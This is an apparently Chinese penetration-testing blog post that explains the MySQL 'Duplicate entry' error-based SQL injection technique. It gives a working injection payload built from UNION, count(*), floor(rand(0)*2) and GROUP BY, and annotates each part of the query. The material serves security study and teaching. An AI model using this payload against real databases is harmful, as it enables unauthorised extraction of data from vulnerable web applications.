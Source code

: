 ```yaml
---
title: MySQL注入-重复条目报错回显公式
date: 2015-04-16 02:56:56
tags:
- Pene
- SqlInjection
categories:
- 巫蛊
- SQL注入
---
```


网上对于DuplicateEntry报错回显注入公式一般是如下的形式
```SQL
1' and 1=2 union select 1 from (select count(*),concat(floor(rand(0)*2),(单值式爆破语句))a from information_schema.tables group by a)b#
```


注入后数据库最终执行的语句类似以下格式：
```SQL
SELECT ... 
FROM ... 
WHERE id= '1' and 1=2
UNION
SELECT 1
FROM (
    SELECT 
        COUNT(*),
        CONCAT(
            FLOOR(RAND(0)*2),
            ( 单值式注入语句 ) 
        )a  
    FROM information_schema.tables  
    GROUP BY a 
) b--
```

这个公式有3个要点

1. 构造布尔断路引发的并联查询，目的是断路掉前面的查询，把查询流程完全引导到并联查询（union）语句中离去。payload为：
a' and 1=2 union select 
2. 嵌套优先报错的from子查询：由于并联查询(union)要求前后的列数目一致，需要把先执行的子查询中的duplicate entry错误抢在union select的列数不一致错误之前触发。这样列数多少就无关紧要了——因为代码永远不会执行到那就提前报错了。攻击载荷结构为: uinon
select 1 from ( 会产生duplicate entry的子查询语句 )b -- 。这里MySQL要求派生表必须提供别名（"Every derived table must have its own alias"），否则报错 
3. 构造产生duplicate entry错误的查询。

为什么会产生Duplicate entry错误呢？ 

知乎上[路西法同学对Duplicate entry的产生原因](http://www.zhihu.com/question/21031129)分析非常清晰。根据MySQL手册，rand()不可以作为ORDER BY的条件字段， 同理也不可以为group by的。上面这个mysql的bug的主要问题是获取的值不确定又可重复。同时又要来操作结果。值得注意的是，如果没有重新刷一次结果（例子中用的是count(*)来统计结果），单纯以rand制造会重复的不确定数也是没有效果的，如去掉count(*),那么也不会报错 ，所以使用left(rand(),3)之类的也是可以的（会产生会重复不确定的数）
整理这段注入代码的构造思路如下：

```SQL
...
WHERE id= '1' and 1=2
UNION
SELECT 1
FROM (
    SELECT 
        COUNT(*),    ##刷新
        CONCAT(      ##制造具有随机名称的字段
            FLOOR(RAND(0)*2),    ##制造随机数
            ( 单值式注入语句 )   ##真正需要执行的SQL指令，必须是单值式SQL命令
        )a           ##为制造出来的随机字段创建别名
    FROM information_schema.tables  
    GROUP BY a       ##利用制造出来的随机字段分组
) b--                ##MySQL要求派生表必须提供别名
```


 

 